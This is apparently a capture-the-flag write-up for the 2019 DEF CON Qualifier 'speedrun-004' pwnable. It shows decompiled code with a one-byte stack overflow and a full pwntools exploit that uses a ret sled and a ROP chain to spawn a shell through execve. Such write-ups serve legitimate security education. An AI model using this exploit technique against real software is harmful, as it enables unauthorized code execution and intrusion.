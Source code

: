 ```yaml
---
layout: post
cover: 'assets/images/cover8.jpg'
navigation: true
title: '2019 DEF CON QUAL - Speedrun004'
date: 2019-05-21
tags: pwnable writeup
subclass: 'post'
logo: 'assets/images/ghost.png'
author: lanphere
categories: lanphere
disqus: true
---
```


```
./speedrun-004: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=3633fdca0065d9365b3f0c0237c7785c2c7ead8f, stripped
```

Statically linked binary!

```
void __cdecl sub_400BD2()
{
  char buf; // [rsp+2h] [rbp-Eh]
  char v1; // [rsp+Bh] [rbp-5h]
  int size; // [rsp+Ch] [rbp-4h]

  puts((__int64)"how much do you have to say?");
  read(0, &buf, 9uLL);
  v1 = 0;
  size = atoi((__int64)&buf);
  if ( size > 0 )
  {
    if ( size <= 257 )
      func(size);
    else
      puts((__int64)"That's too much to say!.");
  }
  else
  {
    puts((__int64)"That's not much to say.");
  }
} 

void __fastcall func(int size)
{
  char buf[256]; // [rsp+10h] [rbp-100h]

  buf[0] = 0;
  puts((__int64)"Ok, what do you have to say for yourself?");
  read(0, buf, size);
  printf((__int64)"Interesting thought \"%s\", I'll take it into consideration.\n", buf);
}
```

We input 257 in sub_400BD2 which leads to one-byte overflow in func().
Since sub_400BD2 returns right after func() returns, we can return to the address value somewhere in buf using one-byte overflow.
It is not easy to use specific stack address. but we can use ret sled, filling buf with address of 'ret' gadget, 
followed by rop chain that calls execve("/bin/sh", NULL, NULL)

```
from pwn import *

bin = ELF('./speedrun-004')

bss = 0x6bc0f6
pop_rax_ret = 0x415f04
pop_rdi_ret = 0x400686
pop_rsi_ret = 0x410a93
pop_rdx_ret = 0x44a155
syscall_ret = 0x474f15
mov_ret = 0x47f521  # move qword ptr [rsi], rax ; ret
ret = 0x400416

p = process('./speedrun-004')

# gdb.attach(p, 'b * 0x400c45')

p.recvuntil('how much do you have to say?\n')
p.send(str(257))

rop_chain = p64(pop_rsi_ret) + p64(bss)
rop_chain += p64(pop_rax_ret) + '/bin/sh\x00'
rop_chain += p64(mov_ret)
rop_chain += p64(pop_rax_ret) + p64(0x3b)
rop_chain += p64(pop_rdi_ret) + p64(bss)
rop_chain += p64(pop_rsi_ret) + p64(0)
rop_chain += p64(pop_rdx_ret) + p64(0)
rop_chain += p64(syscall_ret)

payload = p64(ret) * ((0x100 - len(rop_chain)) / 8)
payload += rop_chain
payload += '\x00'

p.sendafter('Ok, what do you have to say for yourself?\n', payload)
p.interactive()
```